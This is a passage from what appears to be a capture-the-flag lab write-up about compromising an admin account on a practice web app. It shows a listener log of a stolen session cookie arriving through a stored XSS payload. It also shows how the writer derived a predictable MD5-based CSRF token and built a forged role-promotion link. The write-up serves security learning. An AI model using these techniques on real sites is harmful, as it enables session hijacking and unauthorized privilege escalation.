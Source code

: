 Since we know the admin user will visit whatever link we send, this gives us multiple paths we can try to utilize to compromise the admin account. I will share all of them.

### Path #1: Stored XSS

First of all, since the admin visits any link we send, we can go back to the same method that allowed us to compromise the `mod` user. We know our messages with the XSS payload are displayed at the `/admin_view.php` endpoint. So if we make the admin user visit this endpoint by simply sending a link to `http://review.thm/admin_view.php`, we could use the same vulnerability and payload to also capture the cookies for the admin user:

![Web 80 Chat Xss2](web_80_chat_xss2.webp){: width="1200" height="600"}

We can see this works as expected and, apart from the `mod` user's session cookie, we are also able to capture the `admin` user's cookie.

```console
10.10.177.42 - - [19/Sep/2025 22:38:11] "GET /test.js HTTP/1.1" 200 -
10.10.177.42 - - [19/Sep/2025 22:38:11] "GET /?c=PHPSESSID=04ta32qg3654h5lf36mqne46j9 HTTP/1.1" 200 -
```

Now, the same way as before, changing our cookie to the one we captured from the admin user and refreshing the page, we are able to log in as the admin user and capture the second flag.

![Web 80 Admin](web_80_admin.webp){: width="1200" height="600"}

### Path #2: CSRF to Update Role

Another way we could exploit the fact that the admin user visits any link we send would be to use a CSRF vulnerability. In our case, the form to change the password or the one to update our role would be the best candidates for it. However, going back to them, we remember both of them also included a CSRF token to prevent us from doing exactly this.

But we also noticed that the CSRF token was not randomly generated and seemed to be static. Examining it more closely, it looks like an MD5 hash: `ad148a3ca8bd0ef3b48c52454c493ec5`. Using [crackstation.net](https://crackstation.net/) to try to crack it, we can see that it cracks to `mod`, which is the username for our user.

![Crackstation Mod Hash](crackstation_mod_hash.webp){: width="1050" height="400"}

Knowing this, we can also calculate the CSRF token for the admin user as `21232f297a57a5a743894a0e4a801fc3`.

```console
$ echo -n 'mod' | md5sum
ad148a3ca8bd0ef3b48c52454c493ec5  -

$ echo -n 'admin' | md5sum
21232f297a57a5a743894a0e4a801fc3  -
```

With the knowledge of the CSRF token for the `admin` user, we can simply send the admin a link to:
```
http://review.thm/promote_coadmin.php?username=mod&csrf_token_promote=21232f297a57a5a743894a0e4a801fc3
```
to try to update our role to admin.
